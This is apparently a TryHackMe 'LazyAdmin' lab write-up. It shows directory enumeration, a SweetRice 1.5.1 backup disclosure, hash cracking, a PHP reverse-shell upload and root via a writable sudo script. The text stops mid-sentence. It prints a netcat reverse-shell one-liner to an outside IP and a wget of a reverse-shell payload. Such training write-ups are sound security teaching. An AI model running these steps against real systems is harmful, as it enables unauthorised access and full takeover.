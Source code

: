 ## LazyAdmin Writeup

author: Oskar Biernacki 

platform: TryHackMe

link: https://tryhackme.com/room/lazyadmin

### Gobuster Enumeration  
---

```
┌──(kali㉿kali)-[~/Desktop]
└─$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt --url "http://10.10.119.124/"
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.119.124/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/content              (Status: 301) [Size: 316] [--> http://10.10.119.124/content/]
Progress: 6110 / 220558 (2.77%)^C
                                                                                                                                                                                                                                             
┌──(kali㉿kali)-[~/Desktop]
└─$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt --url "http://10.10.119.124/content"
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.119.124/content
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 323] [--> http://10.10.119.124/content/images/]
/js                   (Status: 301) [Size: 319] [--> http://10.10.119.124/content/js/]
/inc                  (Status: 301) [Size: 320] [--> http://10.10.119.124/content/inc/]
/as                   (Status: 301) [Size: 319] [--> http://10.10.119.124/content/as/]
/_themes              (Status: 301) [Size: 324] [--> http://10.10.119.124/content/_themes/]
/attachment           (Status: 301) [Size: 327] [--> http://10.10.119.124/content/attachment/]

```

### Manual Enumeration  
---

The content of `http://10.10.119.124/content/inc/lastest.txt` is `1.5.1`.  
This shows us that the CMS version is probably 1.5.1.  

At `http://10.10.119.124/content/as/` there is a login page for a CMS called `SweetRice`.

The system seems to be:
```  
SweetRice 1.5.1
```  

### Weaponization
---

```
┌──(kali㉿kali)-[~/Desktop]
└─$ searchsploit SweetRice 1.5.1
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                                             |  Path
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
SweetRice 1.5.1 - Arbitrary File Download                                                                                                                                                                  | php/webapps/40698.py
SweetRice 1.5.1 - Arbitrary File Upload                                                                                                                                                                    | php/webapps/40716.py
SweetRice 1.5.1 - Backup Disclosure                                                                                                                                                                        | php/webapps/40718.txt
SweetRice 1.5.1 - Cross-Site Request Forgery                                                                                                                                                               | php/webapps/40692.html
SweetRice 1.5.1 - Cross-Site Request Forgery / PHP Code Execution                                                                                                                                          | php/webapps/40700.html
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
```

It looks like this version of SweetRice is vulnerable.

### Exploitation
---

Following `SweetRice 1.5.1 - Backup Disclosure`, we can download an SQL backup from `http://10.10.119.124/content/inc/mysql_backup/mysql_bakup_20191129023059-1.5.1.sql`.  

The only interesting thing there is:
```
'INSERT INTO `%--%_options` VALUES(\'1\',\'global_setting\',\'a:17:{s:4:\\"name\\";s:25:\\"Lazy Admin&#039;s Website\\";s:6:\\"author\\";s:10:\\"Lazy Admin\\";s:5:\\"title\\";s:0:\\"\\";s:8:\\"keywords\\";s:8:\\"Keywords\\";s:11:\\"description\\";s:11:\\"Description\\";s:5:\\"admin\\";s:7:\\"manager\\";s:6:\\"passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\";s:5:\\"close\\";i:1;s:9:\\"close_tip\\";s:454:\\"<p>Welcome to SweetRice - Thank your for install SweetRice as your website management system.</p><h1>This site is building now , please come late.</h1><p>If you are the webmaster,please go to Dashboard -> General -> Website setting </p><p>and uncheck the checkbox \\"Site close\\" to open your website.</p><p>More help at <a href=\\"http://www.basic-cms.org/docs/5-things-need-to-be-done-when-SweetRice-installed/\\">Tip for Basic CMS SweetRice installed</a></p>\\";s:5:\\"cache\\";i:0;s:13:\\"cache_expired\\";i:0;s:10:\\"user_track\\";i:0;s:11:\\"url_rewrite\\";i:0;s:4:\\"logo\\";s:0:\\"\\";s:5:\\"theme\\";s:0:\\"\\";s:4:\\"lang\\";s:9:\\"en-us.php\\";s:11:\\"admin_email\\";N;}\',\'1575023409\');',
```  

Especially: 
```
"admin\\";s:7:\\"manager\\";s:6:\\"passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\"
```

It's giving us credentials for the manager.

After running 
```bash
hashcat -m 0 42f749ade7f9e195bf475f37a44cafcb /usr/share/wordlists/rockyou.txt
```

we have:


| user     | password (hash)                  | cracked      |
|----------|----------------------------------|--------------|
| `manager`| `42f749ade7f9e195bf475f37a44cafcb` | `**********` |



Let's test if it works for the admin panel or SSH.  

Login at `http://10.10.119.124/content/as/` works.  


Now I try to upload a `.php` file at `http://10.10.119.124/content/as/?type=media_center&dir=test/`  
But uploading a `.php` file does not work (some filters).  
Anyway, there is an `Extract zip archive?` option while uploading.
![](lazyadmin_20250917105730617.png)  

Using a reverse shell from pentestmonkey:   
```bash
wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/refs/heads/master/php-reverse-shell.php 
```
I created `shell.php` and packed it into a zip file.  

After triggering it, we have a shell.
![](lazyadmin_20250917111154352.png)


### Privilege Escalation  
---

```bash
$ cat mysql_login.txt
rice:randompass
```

Interesting sudo for www-data:
```bash
$ sudo -l
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl

```
I followed this privilege and found out that we can write and execute `/etc/copy.sh`, which can be run as root with sudo.

```bash
$ cat backup.pl 
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
$ cat /etc/copy.sh    
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
$ ls /etc/copy.sh -la
-rw-r--rwx 1 root root 81 Nov 29  2019 /etc/copy.sh
```

So we can easily get root:  
```bash
$ echo "/bin/bash" > /etc/copy.sh && sudo /usr/bin/perl /home/itguy/backup.pl
id
uid=0(root) gid=0(root) groups=0(root)
```

And now we can read all